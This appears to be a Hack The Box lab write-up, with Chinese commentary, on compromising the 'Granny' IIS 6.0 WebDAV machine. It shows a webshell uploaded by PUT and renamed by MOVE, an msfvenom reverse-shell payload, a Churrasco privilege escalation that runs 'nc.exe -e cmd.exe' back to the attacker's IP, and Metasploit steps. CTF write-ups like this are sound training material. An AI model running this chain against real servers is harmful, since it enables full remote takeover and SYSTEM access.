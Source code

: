 ```yaml
---
title : "Hack The Box - Granny"
author: fsociety
date: 2024-04-26 11:10:00 +0800
categories: [Hackthebox, Hackthebox-Windows, Hackthebox-Easy]
tags: [IIS6.0,WebDAV,巴西烤肉提权,CVE-2017-7269]
---
```


![image](../assets/post_img/Snipaste_2024-04-26_12-21-59.png)

**Granny, while similar to Grandpa, can be exploited using several different methods. The intended method of solving this machine is the widely-known Webdav upload vulnerability.**

```
可以通过多种不同的方法被利用
解决该机器的预期方法是广为人知的Webdav上传漏洞
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.234 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.95.234

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 26 Apr 2024 04:12:10 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

### <span style="color:lightgreen">Website - TCP 80</span>

![images](../assets/post_img/Snipaste_2024-04-26_12-21-12.png)

```
nothing
```

```http
curl -I 10.129.95.234
HTTP/1.1 200 OK
Content-Length: 1433
Content-Type: text/html
Content-Location: http://10.129.95.234/iisstart.htm
Last-Modified: Fri, 21 Feb 2003 15:48:30 GMT
Accept-Ranges: bytes
ETag: "05b3daec0d9c21:39e"
Server: Microsoft-IIS/6.0
MicrosoftOfficeWebServer: 5.0_Pub
X-Powered-By: ASP.NET
Date: Fri, 26 Apr 2024 04:22:30 GMT
```

```
windows
IIS6.0
ASP.NET

如果以某种方式上传aspx文件,我们将获取服务器的webshell权限
```

### <span style="color:lightgreen">davtest Tools</span>

```
此工具可以让我们知道可以上传哪些类型的文件，以及是否可以创建目录

davtest -url http://10.129.95.234/
```

![image](../assets/post_img/Snipaste_2024-04-26_12-30-31.png)

```
Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK

虽然无法上传aspx文件,
但是我们可以上传后缀名为txt的webshell文件,后续利用MOVE 方法进行重命名
```

## <span style="color:lightblue">Foothold</span>
### <span style="color:lightgreen">Upload Webshell</span>

```
cp /usr/share/webshells/aspx/cmdasp.aspx .

curl -X PUT http://10.129.95.234/0xdd.txt -d @cmdasp.aspx
```

![image](../assets/post_img/Snipaste_2024-04-26_12-35-47.png)

### <span style="color:lightgreen">Move Webshell</span>

```
curl -X MOVE -H 'Destination:http://10.129.95.234/0xdd.aspx' http://10.129.95.234/0xdd.txt
```

![image](../assets/post_img/Snipaste_2024-04-26_12-37-25.png)


## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">churrasco 巴西烤肉提权</span>


```
sudo rlwrap nc -lvnp 443

msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.16 LPORT=443 -o shell.aspx

curl -X PUT http://10.129.95.234/evill.txt --data-binary @shell.aspx
curl -X MOVE -H 'Destination:http://10.129.95.234/evill.aspx' http://10.129.95.234/evill.txt
curl http://10.129.95.234/evill.aspx
```

```
sudo rlwrap nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.234.
Ncat: Connection from 10.129.95.234:1042.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\network service
```

```
历史漏洞提取
https://www.exploit-db.com/exploits/6705

上传nc 以及漏洞利用exp
https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
```

```
nc用这个
/usr/share/sqlninja/apps/nc.exe

mv nc.exe nc.txt
curl -X PUT http://10.129.95.234/nc.txt --data-binary @nc.txt

mv churrasco.exe churrasco.txt
curl -X PUT http://10.129.95.234/churrasco.txt --data-binary @churrasco.txt
```

```
ren nc.txt nc.exe
ren churrasco.txt churrasco.exe
```

```
churrasco.exe -d "\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.16 443"
```

```
sudo rlwrap  nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.234.
Ncat: Connection from 10.129.95.234:1045.
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

whoami
whoami
nt authority\system
```

## <span style="color:lightblue">Metasploit</span>

```
sudo msfconsole -q

exploit/windows/iis/iis_webdav_upload_asp
```

![image](../assets/post_img/Snipaste_2024-04-26_14-03-30.png)

```
(Meterpreter 1)(c:\windows\system32\inetsrv) > run post/multi/recon/local_exploit_suggester
```

```
windows/local/ms10_015_kitrap0d

1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

```
migrate 1972
```

![image](../assets/post_img/Snipaste_2024-04-26_14-10-00.png)

![image](../assets/post_img/Snipaste_2024-04-26_13-40-07.png)